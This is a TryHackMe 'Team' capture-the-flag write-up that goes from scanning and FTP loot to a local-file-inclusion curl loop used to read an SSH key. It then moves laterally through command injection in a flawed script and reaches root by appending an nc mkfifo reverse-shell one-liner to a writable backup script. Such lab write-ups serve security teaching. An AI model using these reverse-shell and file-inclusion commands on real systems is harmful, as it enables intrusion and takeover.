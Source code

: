 ## TryHack Me Team Writeup
---

#### Starting the machine 
![](/docs/images/team/team1.png)


#### Nmap Scan
```
nmap -sV -sC 10.10.182.107 -oA nmap/recon-team
```

![](/docs/images/team/team2.png)


#### Gobuster Scan
```
gobuster dir -u http://10.10.182.107 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster/team  
```

![](/docs/images/team/team3.png)

Unfortunately there were no results on Gobuster


#### Looking at the hidden webpage

After some looking at the webpage, its just a default apache page. But the page source code indicates that there's something more.

![](/docs/images/team/team4.png)


After adding the team.thm link to the hosts file, a new page pops us at http://team.thm

![](/docs/images/team/team5.png)


#### Finding the next step

After some digging around and revealing nothing, it was time for another gobuster scan using the new webpage.

```

gobuster dir -u http://team.thm -w /usr/share/wordlists/dirb/common.txt -o services/apache/gob-team-thm -x txt,php,html

```


![](/docs/images/team/team6.png)

One thing that's revealed is the /robots.txt endpoint.

![](/docs/images/team/team7.png)

And there we go, a 'dale' is found. This is probably a username for something. 

Let's go back to the main directory to look around for more stuff.


#### /scripts endpoint

I forgot to originally check the /scripts folder for more content, so I'll do that now.


![](/docs/images/team/team8.png)

I can see that there's a script.txt file inside the /scripts endpoint.

Let's see if we can pull it out. 

![](/docs/images/team/team9.png)

So this is it, some credentials were redacted (not by me that's actually the box).

And there is an older version of the script, presumably. I'm just gonna go out on limb and try script.txt.old and script.old.

![](/docs/images/team/team10.png)

So script.old was the previous script.

![](/docs/images/team/team11.png)

And it gives some more information about the ftp user. 


#### FTP 

![](/docs/images/team/team12.png)

The only obvious file available was the 'New_site.txt' file, so that could be downloaded into the local system.


![](/docs/images/team/team13.png)

The file indicates that a ".dev" domain can be found on the host and to put your id_rsa in the relevant config file. So a developement domain usually indicated vulnerabilities and the id_rsa tells us that there is an potentiall ssh connection to be made. 


#### Admin Page - User Flag

After adding dev.team.thm to the hosts, it can be accessed.

![](/docs/images/team/team14.png)

From here, there is a single link connecting directly to the teamshare.


![](/docs/images/team/team15.png)

Just by looking at the URL, a potential directory traversal could be possible.

![](/docs/images/team/team16.png)

I'm pretty lazy but we got the user flag which is nice. 


#### Persistence

Next step is to escalate our privileges. The text file did mention the id_rsa keys, I'm going to be using a quick LFI script that I actually stole from another writeup. 

```sh
while IFS="" read -r p || [ -n "$p" ]
do
  printf '%s\n' "$p"
  curl 'http://dev.team.thm/script.php?page='"$p"
done < /usr/share/wordlists/lfi-small.txt
```

![](/docs/images/team/team17.png)


This then give Dales OpenSSH key with the /etc/ssh/sshd_config path.

![](/docs/images/team/team18.png)

After configuring it, we now have SSH privileges.

![](/docs/images/team/team19.png)

So this looks like a standard SUID binary to gain priv esc.


#### Lateral Movement

So this script has an error inside of it that allows for command to be executed by the gyles user. When entering the date, the "bin/bash -i" string can be used to gain a weird shell with no output. Then this is just upgraded to a python shell using the legendary one-liner:

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


![](/docs/images/team/team22.png)

I did mess up in this one by trying to go back but I got the gyles shell. 

This is a result of the intentionally flawed scripting, the name parameter is written directly to the file. But the date, however, is inputted as a command in the "$error 2> /dev/null" line. This means that as long as the command is a valid one, it will run. Giving a shell as gyles using bash. 


#### Privilege Escalation

Of course I'm going to use LinPeas now that it's OSCP allowed. 

![](/docs/images/team/team23.png)

So here a file called /main_backup.sh can be accessed as an admin group.

![](/docs/images/team/team24.png)

Back to SUIDing then.


For this one, since it's actually writeable, a separate shell can be spawned by appending the a nc script. 

![](/docs/images/team/team27.png)

I'm gonna use this one since it hasn't failed me yet.


```
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![](/docs/images/team/team28.png)

We should have a nc shell now.

![](/docs/images/team/team29.png)

There we go, root shell obtained. 